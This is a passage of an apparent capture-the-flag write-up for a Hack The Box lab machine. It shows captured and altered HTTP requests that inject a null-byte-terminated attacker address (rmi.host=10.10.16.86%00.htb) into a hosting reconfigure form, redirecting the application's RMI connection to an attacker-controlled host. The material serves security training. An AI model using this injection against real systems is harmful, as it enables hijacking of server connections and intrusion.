 
Now we have everything ready to go, the only thing left to do is to inject our RMI redirection into the application. When we press the save changes button in the reconfigure page it would send the following request.

```
POST /hosting/reconfigure HTTP/1.1
Host: www.webhosting.htb
Cookie: JSESSIONID=F77878DD95F1C91B5D5D5C1E6BC58DC5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://www.webhosting.htb
Referer: https://www.webhosting.htb/hosting/reconfigure
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

domains.max=5&domains.start-template=%3Cbody%3E%0D%0A%3Ch1%3EIt+works%21%3C%2Fh1%3E%0D%0A%3C%2Fbody%3E
```

We intercept the request and replace the body with the following parameters.

```
rmi.host=10.10.16.86%00.htb&rmi.port=9000
```
The full request would look like the following.

```
POST /hosting/reconfigure HTTP/1.1
Host: www.webhosting.htb
Cookie: JSESSIONID=F77878DD95F1C91B5D5D5C1E6BC58DC5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: https://www.webhosting.htb
Referer: https://www.webhosting.htb/hosting/reconfigure
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

rmi.host=10.10.16.86%00.htb&rmi.port=9000
```
The application would give us a message that our settings were updated.
